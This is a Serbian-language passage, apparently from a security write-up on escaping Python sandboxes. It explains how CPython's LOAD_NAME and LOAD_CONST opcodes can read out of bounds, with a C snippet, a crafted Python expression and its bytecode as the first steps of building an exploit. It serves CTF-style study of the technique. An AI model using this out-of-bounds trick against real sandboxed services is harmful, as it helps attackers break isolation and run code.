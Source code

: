 Osnovna ideja za rešenje je jednostavna. Neke opcode-ove u CPython-u, kao što su `LOAD_NAME` i `LOAD_CONST`, su ranjive (?) na izvan granica čitanja.

Oni dobavljaju objekat sa indeksom `oparg` iz tuple-a `consts` ili `names` (to je ono što se naziva `co_consts` i `co_names` ispod haube). Možemo se pozvati na sledeći kratak snimak o `LOAD_CONST` da bismo videli šta CPython radi kada obrađuje opcode `LOAD_CONST`.

```c
case TARGET(LOAD_CONST): {
PREDICTED(LOAD_CONST);
PyObject *value = GETITEM(consts, oparg);
Py_INCREF(value);
PUSH(value);
FAST_DISPATCH();
}1234567
```

Na ovaj način možemo koristiti OOB funkcionalnost da bismo dobili "ime" sa proizvoljnog memorijskog offseta. Da bismo bili sigurni koje ime ima i koji je njegov offset, jednostavno pokušavamo `LOAD_NAME 0`, `LOAD_NAME 1` ... `LOAD_NAME 99` ... I možete pronaći nešto sa oparg > 700. Takođe možete pokušati koristiti gdb da biste pogledali raspored memorije, ali ne mislim da bi to bilo lakše?

### Generisanje Exploita <a href="#generating-the-exploit" id="generating-the-exploit"></a>

Kada dobijemo korisne offsete za imena / konstante, kako _dobijamo_ ime / konstantu sa tog offseta i koristimo je? Evo trika za vas:\
Pretpostavimo da možemo dobiti ime `__getattribute__` sa offsetom 5 (`LOAD_NAME 5`) sa `co_names=()`, tada samo uradite sledeće:

```python
[a,b,c,d,e,__getattribute__] if [] else [
[].__getattribute__
# you can get the __getattribute__ method of list object now!
]1234
```

> Primetite da nije neophodno nazvati ga kao `__getattribute__`, možete ga nazvati nečim kraćim ili čudnijim.

Razlog možete razumeti samo gledajući njegov bajtkod:

```python
0 BUILD_LIST               0
2 POP_JUMP_IF_FALSE       20
>>    4 LOAD_NAME                0 (a)
>>    6 LOAD_NAME                1 (b)
>>    8 LOAD_NAME                2 (c)
>>   10 LOAD_NAME                3 (d)
>>   12 LOAD_NAME                4 (e)
>>   14 LOAD_NAME                5 (__getattribute__)
16 BUILD_LIST               6
18 RETURN_VALUE
20 BUILD_LIST               0
>>   22 LOAD_ATTR                5 (__getattribute__)
24 BUILD_LIST               1
26 RETURN_VALUE1234567891011121314
```
